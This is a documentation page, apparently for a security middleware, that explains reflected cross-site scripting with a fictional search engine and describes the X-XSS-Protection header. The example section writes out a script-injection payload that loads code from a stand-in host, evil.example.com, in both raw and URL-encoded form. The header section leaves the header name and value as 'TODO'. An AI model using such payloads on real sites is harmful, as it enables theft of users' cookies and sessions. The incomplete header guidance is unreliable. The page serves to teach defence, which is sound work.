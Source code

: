 ```yaml
---
layout: page
title: XSS Filter
permalink: /middleware/xss-filter/
---
```

In short, the `xssFilter` middleware sets the `X-XSS-Protection` header to prevent reflected XSS attacks.

The attack
----------

Cross-site scripting, abbreviated to "XSS", is a way attackers can take over webpages. The goal of an XSS attack is to gain control of JavaScript in the victim's browser. Once a hacker has done that, there's a lot of nasty stuff they can do: log your actions, impersonate you, steal your authentication cookies, and much more.

XSS is a multifaceted beast and we won't learn everything about it here. The main takeaway: if someone can run JavaScript on your page, they can attack your users and do a lot of bad things. We want to prevent it!

One kind of XSS is called "Reflected XSS". Typically, it works by setting a query string which is put directly into the HTML. Putting JavaScript in the query string can let an attacker execute their JavaScript just by giving someone a malicious query string.

For example, let's say you run a search engine called Goober. Every time you do a search, it displays your search terms right above your results. For example, let's say we've searched for "javascript jokes".

When you do a search, your search terms also appear in your query string. The full URL might look something like this:

```
https://goober.example.com/search?query=javascript+jokes
```

The search results might look like the screenshot below. Notice how the text appears right on the page:

![Screenshot of normal Goober search](xss-filter-ok.png)

What if we could search for something like `<script src="http://evil.example.com/steal-data.js"></script>`? That URL would look like this:

```
https://goober.example.com/search?query=<script%20src="http://evil.example.com/steal-data.js"></script>
```

And here's how it would appear on your page:

![Screenshot of malicious Goober search](xss-filter-malicious.png)

Suddenly, a malicious JavaScript file was executed just because you visited a URL! That's not good.

Read more:

- [Guide to understanding XSS](http://www.securesolutions.no/xss-explained/)
- [Cross-site Scripting (XSS)](https://www.owasp.org/index.php/XSS)
- [What is Reflected XSS?](http://security.stackexchange.com/q/65142)
- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

The header
----------

To be very clear: *this header does not protect you from XSS attacks much*. It protects against a very particular kind of XSS, and other mitigation measures are far better. This header provides a quick win and basic protection, but this header does not save you from XSS attacks.

It's relatively easy for browsers to detect simple reflected XSS. In the example above, browsers could choose not to execute the JavaScript inside a `<script>` tag if it matches what's in the query string. Some browsers do this detection by default, but some don't. To make these browsers check for this simple case, you can set the TODO header to TODO.

This tells browsers to detect and block reflected XSS.

This header causes some *even worse* security vulnerabilities in older versions of Internet Explorer, so it's wise to disable it there.
